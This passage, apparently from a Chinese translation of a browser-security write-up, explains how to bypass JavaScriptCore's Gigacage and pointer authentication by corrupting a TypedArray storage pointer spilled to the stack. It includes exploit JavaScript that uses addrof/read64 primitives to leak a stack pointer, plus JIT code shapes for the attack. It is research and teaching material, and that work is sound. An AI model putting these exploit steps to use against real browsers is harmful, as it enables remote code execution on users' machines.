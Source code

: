 有趣的是,访问TypedArray已经分成三种不同的操作:索引的边界检查、GetIndexedPropertyStorage操作，负责获取和释放backing storage指针,本质上和GetByVal操作转化为一个单一的内存加载指令，假设r0持有指向TypedArray a的指针，那么上面的IR将导致机器代码大致如下所示：

```
; bounds check omitted
Lda r2, [r0 + 24];
; Uncage and unPAC r2 here
Lda r0, [r2]
B lr
```

但是，如果没有通用寄存器可供GetIndexedPropertyStorage保存原始指针，会发生什么?在这种情况下，指针将不得不溢出到栈中，这样，攻击者就可以通过修改栈上溢出的指针，在通过GetByVal或SetByVal操作访问内存之前，修改栈上溢出的指针，从而突破两个cages。

本文剩余部分将介绍如何在实践中实现这样的攻击。因此，必须解决以下challenges:
- 泄漏栈指针，然后查找和破坏栈上溢出的值
- 将GetIndexedPropertyStorage与GetByVal操作分离，以便修改溢出指针的代码可以在两者之间执行
- 强制使用uncaged storage指针溢出到栈中
### <a class="reference-link" name="%E5%AF%BB%E6%89%BE%E6%A0%88"></a>寻找栈

在给定任意堆读/写的情况下，在JSC中找到指向栈的指针非常简单：VM对象的topCallFrame成员实际上是指向栈的指针，因为JSC解释器使用本地stack，所以JS调用frame也基本在主线程栈顶，因此，查找栈就像从全局对象到VM实例的指针链一样简单：

```
let global = Function('return this')();
let js_glob_obj_addr = addrof(global);

let glob_obj_addr = read64(Add(js_glob_obj_addr, 
    offsets.JS_GLOBAL_OBJ_TO_GLOBAL_OBJ));

let vm_addr = read64(Add(glob_obj_addr, offsets.GLOBAL_OBJ_TO_VM));

let vm_top_call_frame_addr = Add(vm_addr, 
    offsets.VM_TO_TOP_CALL_FRAME);
let vm_top_call_frame_addr_dbl = vm_top_call_frame_addr.asDouble();

let stack_ptr = read64(vm_top_call_frame_addr);
log(`[*] Top CallFrame (stack) @ $`{`stack_ptr`}``);
```

### <a class="reference-link" name="%E5%88%86%E7%A6%BBTypedArray%E8%AE%BF%E9%97%AE%E6%93%8D%E4%BD%9C"></a>分离TypedArray访问操作

上面的opt函数只访问一个索引上的数组一次(即[0])，GetIndexedPropertyStorage操作将直接跟在GetByVal操作之后，因此即使uncaged指针溢出到栈上，也不可能破坏它。但是，以下代码已经成功地将这两个操作分开：

```
function opt(a) `{`
    a[0];

    // Spill code here

    a[1];
`}`
```
